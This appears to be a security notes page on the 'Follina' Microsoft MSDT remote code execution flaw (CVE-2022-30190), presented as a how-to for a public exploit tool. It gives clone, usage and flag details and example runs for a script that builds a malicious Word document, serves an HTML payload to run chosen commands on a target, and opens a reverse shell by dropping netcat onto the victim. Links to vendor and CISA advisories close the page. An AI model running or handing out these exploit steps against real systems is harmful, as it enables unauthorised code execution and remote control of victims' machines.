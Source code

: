 ```yaml
---
title : "CVE-2022-30190"
# pre : ' '
description : "Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability 'Follina'."
date : 2022-06-02T11:07:21+02:00
# hidden : true
# draft : true
weight : 360
# tags : ['']
---
```


---

## Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability 'Follina'

![Example](images/example1.png)

## Installation

```plain
git clone https://github.com/JohnHammond/msdt-follina
```

## Usage

```plain
follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]
```

## Flags

```plain
options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

## Examples

Pop `calc.exe`:

```plain
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```plain
python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```plain
python3 follina.py -r 9001
```

![Example](images/example2.png)

## URL List

- [Github.com - msdt-follina](https://github.com/JohnHammond/msdt-follina)
- [YouTube.com - let’s play with a ZERO-DAY vulnerability 'follina'](https://www.youtube.com/watch?v=3ytqP1QvhUc)
- [Fortinet.com - Analysis of Follina Zero Day](https://www.fortinet.com/blog/threat-research/analysis-of-follina-zero-day)
- [Kaspersky.com - Follina: office documents as an entrance](https://www.kaspersky.com/blog/follina-cve-2022-30190-msdt/44461/)
- [Cisa.gov - Microsoft Releases Workaround Guidance for MSDT 'Follina' Vulnerability](https://www.cisa.gov/uscert/ncas/current-activity/2022/05/31/microsoft-releases-workaround-guidance-msdt-follina-vulnerability)
- [Huntress.com - Rapid Response: Microsoft Office RCE - 'Follina' MSDT Attack](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug)
